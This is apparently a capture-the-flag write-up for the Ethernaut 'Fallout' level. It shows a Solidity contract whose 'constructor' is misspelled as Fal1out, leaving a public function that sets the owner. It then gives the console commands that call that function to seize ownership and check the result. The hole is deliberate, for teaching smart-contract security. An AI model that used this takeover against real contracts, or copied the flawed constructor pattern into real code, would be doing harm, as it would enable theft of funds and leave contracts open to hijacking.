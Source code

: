 The nect level is called Fallout. We are told the objective is to become owner of the contract. We are also provided the following code for the contract.

```solidity
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallout {
  
  using SafeMath for uint256;
  mapping (address => uint) allocations;
  address payable public owner;


  /* constructor */
  function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
  }

  modifier onlyOwner {
	        require(
	            msg.sender == owner,
	            "caller is not the owner"
	        );
	        _;
	    }

  function allocate() public payable {
    allocations[msg.sender] = allocations[msg.sender].add(msg.value);
  }

  function sendAllocation(address payable allocator) public {
    require(allocations[allocator] > 0);
    allocator.transfer(allocations[allocator]);
  }

  function collectAllocations() public onlyOwner {
    msg.sender.transfer(address(this).balance);
  }

  function allocatorBalance(address allocator) public view returns (uint) {
    return allocations[allocator];
  }
}
```

To begin we start by looking at the functions that are in the contract. We can do this by calling the abi for the contract.
A pretty way to print this is to use console.table.
```js
console.table(await contract.abi)
```

![](fallout_contract.abi.png)

While looking over the table of returned functions we notice that there is no contrustor. However, there is one commented in the code. Looking a little deeper we notice that the "constructor" in the code is misspelled making a function that anyone can call. On top of this, this function sets the owner to the caller. So all we need to do is call it and send it a small amount of ether in order to become the owner.

```js
await contract.Fal1out.sendTransaction({value: toWei(".0001")})
```

Then to confirm we are owner we can call owner() and compare with our player address. 

```js
await contract.owner()
"0x7cd9b6A2c517e1930F230d032Ab25F497A87c651"
player
"0x7cd9b6A2c517e1930F230d032Ab25F497A87c651"
```

In this case our address and the owner's is the same meaning we have taken ownership of the contract.